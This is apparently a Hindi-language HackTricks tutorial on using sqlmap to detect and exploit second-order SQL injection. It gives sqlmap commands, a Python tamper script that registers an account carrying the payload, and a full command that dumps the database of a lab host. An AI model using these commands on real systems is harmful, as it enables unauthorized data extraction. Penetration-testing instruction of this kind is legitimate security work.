 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>


**SQLMap सेकंड ऑर्डर SQLis का शिकार कर सकता है।**\
आपको प्रदान करना होगा:

* **वह अनुरोध** जहां **sqlinjection payload** सहेजा जाएगा
* **वह अनुरोध** जहां **पेलोड** को **क्रियान्वित** किया जाएगा

SQL इंजेक्शन पेलोड को सहेजा जाता है वह अनुरोध **sqlmap में किसी भी अन्य इंजेक्शन के रूप में दर्शाया जाता है**। इंजेक्शन के आउटपुट/क्रियान्वयन को sqlmap पढ़ सकता है उस अनुरोध को `--second-url` या `--second-req` के साथ दर्शाया जा सकता है यदि आपको एक पूर्ण अनुरोध को दर्शाने की आवश्यकता है।

**सरल सेकंड ऑर्डर उदाहरण:**
```bash
#Get the SQL payload execution with a GET to a url
sqlmap -r login.txt -p username --second-url "http://10.10.10.10/details.php"

#Get the SQL payload execution sending a custom request from a file
sqlmap -r login.txt -p username --second-req details.txt
```
कई मामलों में **यह काफी नहीं होगा** क्योंकि आपको पेज को भेजने और एक विभिन्न पेज तक पहुंचने के अलावा **अन्य कार्रवाई** करनी होगी।

जब यह आवश्यक होता है, तो आप **sqlmap tamper** का उपयोग कर सकते हैं। उदाहरण के लिए निम्नलिखित स्क्रिप्ट एक नए उपयोक्ता को **sqlmap payload के रूप में ईमेल** के रूप में रजिस्टर करेगा और लॉगआउट करेगा।
```python
#!/usr/bin/env python

import re
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
pass

def login_account(payload):
proxies = {'http':'http://127.0.0.1:8080'}
cookies = {"PHPSESSID": "6laafab1f6om5rqjsbvhmq9mf2"}

params = {"username":"asdasdasd", "email":payload, "password":"11111111"}
url = "http://10.10.10.10/create.php"
pr = requests.post(url, data=params, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

url = "http://10.10.10.10/exit.php"
pr = requests.get(url, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

def tamper(payload, **kwargs):
headers = kwargs.get("headers", {})
login_account(payload)
return payload
```
**एक SQLMap टैम्पर हमेशा एक पेलोड के साथ इंजेक्शन की कोशिश शुरू करने से पहले चलाया जाता है** **और इसे एक पेलोड वापस करना होता है।** इस मामले में हमें पेलोड की परवाह नहीं है लेकिन हमें कुछ अनुरोध भेजने की परवाह है, इसलिए पेलोड बदला नहीं जाता।

इसलिए, अगर किसी कारणवश हमें दूसरे क्रम की SQL इंजेक्शन का शिकार करने के लिए एक अधिक जटिल फ्लो की आवश्यकता होती है जैसे:

* "ईमेल" फ़ील्ड में SQLi पेलोड के साथ एक खाता बनाएं
* लॉगआउट
* उस खाते से लॉगिन करें (login.txt)
* SQL इंजेक्शन को निष्पादित करने के लिए एक अनुरोध भेजें (second.txt)

**यह sqlmap लाइन मदद करेगी:**
```bash
sqlmap --tamper tamper.py -r login.txt -p email --second-req second.txt --proxy http://127.0.0.1:8080 --prefix "a2344r3F'" --technique=U --dbms mysql --union-char "DTEC" -a
##########
# --tamper tamper.py : Indicates the tamper to execute before trying each SQLipayload
# -r login.txt : Indicates the request to send the SQLi payload
# -p email : Focus on email parameter (you can do this with an "email=*" inside login.txt
# --second-req second.txt : Request to send to execute the SQLi and get the ouput
# --proxy http://127.0.0.1:8080 : Use this proxy
# --technique=U : Help sqlmap indicating the technique to use
# --dbms mysql : Help sqlmap indicating the dbms
# --prefix "a2344r3F'" : Help sqlmap detecting the injection indicating the prefix
# --union-char "DTEC" : Help sqlmap indicating a different union-char so it can identify the vuln
# -a : Dump all
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** पर **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
